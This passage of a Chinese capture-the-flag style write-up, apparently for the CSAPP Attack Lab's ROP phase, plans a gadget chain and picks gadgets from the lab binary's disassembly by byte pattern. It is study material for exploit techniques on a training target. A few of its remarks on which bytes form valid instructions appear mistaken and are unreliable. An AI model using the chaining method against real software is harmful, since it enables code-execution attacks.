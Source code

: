 代码段中以`%edx`为目的寄存器的代码格式为`89 c2`，其转化为指令为`movl %eax, %edx`。

那么前面的过程就变成了：

```
1. rax = rsp(48 89 e0)
2. eax = 偏移量；edx = eax；(89 c2) ecx = edx；(89 d1) rsi = ecx(89 ce)
3. rdi = rax(<setval_210> 中的 48 89 c7)
4. rax = rdi + rsi（lea指令）
5. rdi = rax(<setval_210> 中的 48 89 c7)
6. ret
7. 将攻击字符串放在%rsp + offset 处
```

以`%eax`(或`%rax`)为目的寄存器的指令格式为`(48)* 89 (c|d|e|f)(0|8)`，包含其格式的代码段为：

```
0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
  401a09:	c3                   	retq
0000000000401a18 <getval_345>:
  401a18:	b8 48 89 e0 c1       	mov    $0xc1e08948,%eax
  401a1d:	c3                   	retq
0000000000401a39 <addval_110>:
  401a39:	8d 87 c8 89 e0 c3    	lea    -0x3c1f7638(%rdi),%eax
  401a3f:	c3                   	retq
0000000000401a47 <addval_201>:
  401a47:	8d 87 48 89 e0 c7    	lea    -0x381f76b8(%rdi),%eax
  401a4d:	c3                   	retq
0000000000401a5a <setval_299>:
  401a5a:	c7 07 48 89 e0 91    	movl   $0x91e08948,(%rdi)
  401a60:	c3                   	retq
0000000000401a83 <addval_358>:
  401a83:	8d 87 08 89 e0 90    	lea    -0x6f1f76f8(%rdi),%eax
  401a89:	c3                   	retq
0000000000401a97 <setval_181>:
  401a97:	c7 07 48 89 e0 c2    	movl   $0xc2e08948,(%rdi)
  401a9d:	c3                   	retq
0000000000401aab <setval_350>:
  401aab:	c7 07 48 89 e0 90    	movl   $0x90e08948,(%rdi)
  401ab1:	c3                   	retq
```

其中以`%eax`为目的寄存器的代码格式为`89 e0`，其主要目的为`movl %esp,%eax`，也就是我们步骤第一步中的内容。

除此以外，还有一种涉及`%rax`的指令就是`popq %rax`，其指令编码为`58`。其在代码中出现的部分包含：

```
00000000004019a7 <addval_219>: // 可以是他！
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq
00000000004019b5 <setval_424>: // 92不是指令，不可以是他！
  4019b5:	c7 07 54 c2 58 92    	movl   $0x9258c254,(%rdi)
  4019bb:	c3                   	retq
00000000004019ca <getval_280>: // c3不是指令，不可以是他！
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq
```
